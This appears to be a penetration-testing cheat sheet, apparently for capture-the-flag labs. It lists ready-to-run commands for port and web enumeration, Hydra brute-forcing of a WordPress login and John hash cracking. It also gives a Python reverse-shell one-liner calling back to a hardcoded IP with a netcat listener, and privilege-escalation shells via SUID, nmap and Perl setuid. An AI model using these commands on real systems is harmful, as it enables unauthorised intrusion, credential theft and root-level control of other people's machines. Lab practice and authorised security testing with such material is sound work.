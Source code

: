 # Port Enumeration

## NMAP
```bash
mkdir -p scans/nmap
nmap -v -sC -sV -oN nmap/initial $IP
nmap -v -p- -oN nmap/all_ports $IP
```





# Web Tools

## Gobuster
```bash
mkdir -p scans/gobuster
gobuster dir -u http://$IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster/medium_list -x php,sh,cgi,txt,html,js,css,py
```

## Nikto
```bash
mkdir nikto
nikto -h http://$IP | tee nikto/results
```

## FUFF
```bash
fuff -u http://$IP/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```


# Brute Force

## Hydra
```bash
# Format
# sudo hydra -L <Username/List> -P <Password/List> <IP> <Method> "<Path>:<RequestBody>:<IncorrectVerbiage>"

sudo hydra -l Username -P passwordlist.txt $IP http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:ERROR"
```

## John
```bash
john --wordlist=/usr/share/wordlist/rockyou.txt --format=Raw-MD5 hash.txt
```





# Reverse Shell

## Python
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.30.23",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Netcat
```bash
nc -lvnp 9999
```

## Stable
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```






# Privilege Escalation

## Finding SUID
```bash
find / -perm -u=s -type f 2> /dev/null
```

## Finding Capabilities
```bash
getcap -r / 2>/dev/null
```

## Tools

### NMAP
```bash
nmap --interactive
!sh
```

### PERL - Capabilities
```bash
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```




# Image tools

## STEGHIDE
```bash
steghide extract -sf image.jpg
```



# Useful Websites
- https://gtfobins.github.io/
- https://github.com/JohnHammond/poor-mans-pentest
- https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
